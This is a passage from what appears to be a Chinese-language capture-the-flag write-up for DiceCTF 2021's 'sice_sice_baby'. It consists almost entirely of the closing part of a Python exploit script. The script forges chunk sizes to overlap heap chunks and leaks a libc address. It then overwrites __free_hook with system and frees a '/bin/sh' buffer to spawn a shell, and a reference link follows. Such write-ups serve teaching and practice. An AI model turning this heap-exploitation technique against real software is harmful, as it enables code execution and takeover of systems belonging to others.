 ```
    edit(0x3a,partial_null_write)

    fake_chunk_size = 0x98*'d'
    fake_chunk_size += p64(0x2e1)

    edit(0x35,fake_chunk_size)

    for i in range(42,49):#0xe8
        delete(i)    
    raw_input("overlap")
    delete(57) #最后进行上合并的堆块
    edit(0x3b,"e"*8)
    add(0xd8)
    show(0x3b)
    data = uu64(r(6))
    lg('data',data)
    addr = data - 0x7f9c8b652be0 + 0x7f9c8b468000
    lg('addr',addr)

    #---------------------------------------------------------------------------------
    claim(0xe8)
    add(0xe8)#0x40
    delete(0x2b)
    delete(0x3b)
    edit(0x40,p64(addr+libc.sym['__free_hook']-8))
    add(0xe8)
    add(0xe8)
    edit(0x3b,"/bin/sh\x00"+p64(addr+libc.sym['system']))
    delete(0x3b)










    # dbg()
    it()
if __name__ == '__main__':
    exp()
```



## 参考

[https://gitlab.com/hkraw/ctf_/-/blob/master/dicectf-2021/sice_sice_baby](https://gitlab.com/hkraw/ctf_/-/blob/master/dicectf-2021/sice_sice_baby)
